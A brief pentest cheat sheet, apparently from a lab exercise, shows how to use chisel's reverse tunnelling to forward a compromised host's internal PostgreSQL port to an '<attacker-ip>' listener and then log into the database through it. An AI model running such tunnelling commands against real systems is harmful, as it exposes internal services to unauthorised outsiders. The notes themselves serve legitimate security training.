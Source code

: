 # chisel
- server and client in a single binary
- runs on linux and/or windows
1. Run the server
```
chisel server --socks5 --reverse
```
Example output
```
$ chisel server --socks5 --reverse
2024/12/25 18:44:39 server: Reverse tunnelling enabled
2024/12/25 18:44:39 server: Fingerprint nhPTxim2cD4wf1js50X038Zl4o7v5wfwCrdC0doFuy8=
2024/12/25 18:44:39 server: Listening on http://0.0.0.0:8080
```

2. Connect to the server and forward 1337 to 5432 to expose the PSQL database
```
chisel client <attacker-ip>:8080 R:1337:127.0.0.1:5432
```
Example output
```
$ ./chisel client 10.10.14.43:8080 R:1337:127.0.0.1:5432
2024/12/26 00:46:13 client: Connecting to ws://10.10.14.43:8080
2024/12/26 00:46:13 client: Connected (Latency 8.141219ms)
```

3. Verify connection at the server
```
$ chisel server --socks5 --reverse
2024/12/25 18:44:39 server: Reverse tunnelling enabled
2024/12/25 18:44:39 server: Fingerprint nhPTxim2cD4wf1js50X038Zl4o7v5wfwCrdC0doFuy8=
2024/12/25 18:44:39 server: Listening on http://0.0.0.0:8080
2024/12/25 18:46:12 server: session#1: tun: proxy#R:1337=>5432: Listening
```

4. Connect through the tunnel
```
$ psql -U db_user -h 127.0.0.1 -p 1337 survey
Password for user db_user: 
psql (15.8 (Debian 15.8-0+deb12u1), server 14.15 (Ubuntu 14.15-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
Type "help" for help.

survey=>
```
